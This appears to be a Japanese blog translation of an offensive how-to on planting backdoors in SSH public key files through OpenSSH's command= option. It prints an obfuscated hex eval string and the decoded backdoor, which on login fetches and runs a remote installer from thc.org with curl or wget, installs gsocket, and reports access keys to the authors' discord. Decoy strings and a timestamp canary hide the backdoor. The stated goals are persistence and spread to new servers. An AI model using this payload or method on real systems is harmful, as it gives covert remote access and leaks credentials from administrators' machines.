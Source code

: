 <div style="text-align:center;">
[f:id:motikan2010:20230525105005p:plain:w600]
</div>

本記事は以下の記事の日本語訳です。  
**Infecting SSH Public Keys with backdoors**  
[https://blog.thc.org/infecting-ssh-public-keys-with-backdoors:embed:cite]

---

<div class="contents-box"><p>[:contents]</p></div>

## Infecting SSH Public Keys with backdoors

　この記事では、SSH公開鍵にバックドアを追加する方法を学びます。このバックドアは、ユーザーがログインするたびに実行されます。  

バックドアは「`~/.ssh/authorized_keys`」または「`~/.ssh/id_*.pub`」の中に、読めない長い16進文字列として隠されています。

ソースはGitHubから入手可能です。

[https://github.com/hackerschoice/ssh-key-backdoor]


### What's the purpose

1. 笑いを取るため。
2. サーバーの再起動後にバックドアを再起動させる。  
（「`crontab`」や「`~/.bashrc`」に感染させるのと同様）
3. 横方向に拡散する。管理者は、自分のSSH公開鍵を新しいサーバーにコピーすることが知られています。
そのサーバを自分のものにします。
4. クラウドデプロイメントでは、管理者の公開鍵が新しいインスタンスにコピーされることがよくありますが、今度はその中にあなたのバックドアもコピーされます。

### The nitty-gritty

　OpenSSHには、ユーザがログインに成功したときに「（Shellの代わりに）コマンドを実行する」、という隠れた機能があります。  
例としてこの機能はAWSで、rootでログインしないようにと伝えるために使われています。

<div class="md-code" style="width:100%">
```
no-port-forwarding,no-agent-forwarding,command="echo 'Please login as the user \"ubuntu\" rather than the user \"root\".';echo;sleep 10;exit 142" ssh-ed25519 AAAA...
```
</div>

### The Details

　バックドアの文字列を分解してみます。「 `no-user-rc,no-X11-forwarding`」は、詮索好きな人の目をそらすための策略です。これは省略可能です。

`command=`の文字列は、本当のマジックが起こるところです。以下は、簡略化されたバックドア文字列の短縮版です。

<div class="md-code" style="width:100%">
```
command="`###---POWERSHELL---`;eval $(echo 6563686f2048656c6c6f204261636b646f6f72|xxd -r -ps)"
```
</div>

OpenSSHは2つの引用符"... "の間にある文字列全体を実行します。

この「`###--POWERSHELL---`」も策略である。何もしないのです。

次のコマンドevalは、エンコードされた16進文字列の中に隠されているコマンドを実行します。

実際に実行されるコマンドを明らかにするために、16進文字列をデコードしてみましょう。

<div class="md-code" style="width:100%">
```
$ echo 6563686f2048656c6c6f204261636b646f6f72 | xxd -r -ps
echo Hello Backdoor
```
</div>

この単純化されたバックドアは、ログイン時に「Hello Backdoor」と表示し、その後SSH接続を終了させるだけです。  

私たちのバックドア文字列はもっと複雑で、このようにデコードされます。

<div class="md-code" style="width:100%">
```
[[ $(stat -c%Y /bin/sh) != $(stat -c%Y .ssh) ]] && {
    touch -r /bin/sh .ssh
    export KEY=""
    bash -c "$(curl -fsSL thc.org/sshx)" || bash -c "$(wget --no-verbose -O- thc.org/sshx)" || exit 0
} >/dev/null 2>/dev/null &
[[ -n $SSH_ORIGINAL_COMMAND ]] && exec $SSH_ORIGINAL_COMMAND
[[ -z $SHELL ]] && SHELL=/bin/bash
[[ -f /run/motd.dynamic ]] && cat /run/motd.dynamic
[[ -f /etc/motd ]] && cat /etc/motd
exec -a -$(basename $SHELL) $SHELL
```
</div>

　まず、バックドアがログインのたびに起動するのではなく、一度だけ起動することを確認するためにカナリアを使用します。  
 もし「`~/.ssh`」と「`/bin/sh`」の日付が同じなら、バックドアはすでにインストールされていると仮定します。それ以外の場合は、同じ日付に設定し、その後バックドアを実行します。

　この場合のバックドアは、thc.org/sshx (`http://thc.org/sshx`) から取り出したバックドアインストーラスクリプトで、メモリ内で実行されます。  
ユーザーのログインを遅くしないために、バックグラウンドプロセスとして起動します。  
インストーラースクリプトは gsocket (`http://gsocket.io/deploy`) をインストールし、成功すればアクセスキーとシステムメトリクスを私たちのdiscordチャンネルに報告します。

　その後、バックドアの文字列は、ユーザーがシェルではなくコマンドを実行したかったかどうかをチェックします。

　最後の3行は、ユーザーがシェルにログインした場合（通常の場合）です。

1. SHELL変数がまだ設定されていない場合は、設定する。
2. Linuxのmotdをシミュレートする。
3. ユーザーのシェルを実行する。

ハッキングを続ける。

---

## 参考

本記事は以下の記事の日本語訳です。  
**Infecting SSH Public Keys with backdoors**  
[https://blog.thc.org/infecting-ssh-public-keys-with-backdoors:embed:cite]
